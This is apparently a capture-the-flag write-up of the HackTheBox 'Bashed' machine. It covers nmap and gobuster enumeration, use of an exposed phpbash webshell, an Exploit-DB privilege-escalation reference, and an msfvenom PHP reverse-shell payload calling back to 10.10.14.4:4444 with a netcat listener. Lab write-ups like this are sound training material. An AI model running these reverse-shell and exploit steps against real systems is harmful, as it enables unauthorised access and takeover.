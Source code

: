nmap result:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Use gobuster to find interesting directories and files `gobuster dir -u http://10.10.10.68/ -w big.txt -x php`

```
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd.php        (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess.php        (Status: 403) [Size: 299]
/config.php           (Status: 200) [Size: 0]  
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/server-status        (Status: 403) [Size: 299]                                 
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
```

We can find php webshell in here:

```
http://10.10.10.68/dev/phpbash.php
```

`cat /etc/os-release`

```
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

Finding privelege escalation exploit [44298](https://www.exploit-db.com/exploits/44298) for this version.

Use msfvenom to generate php reverse shell and upload the file to `http://10.10.10.68/uploads/shell.php`

```
msfvenom -p php/reverse_php LHOST=10.10.14.4 LPORT=4444 -f raw > shell.php
```

Listen on reverse shell

```
nc 10.10.14.4 -l 4444
```

Compile and execute the exploit on the target machine and get root flag.

Another way to get root flag is metioned in this [post](https://0xdf.gitlab.io/2018/04/29/htb-bashed.html):

Use [LinEnum.sh](https://github.com/rebootuser/LinEnum) to get possible way to escalate privilege, which leads to sudo as scriptmanager.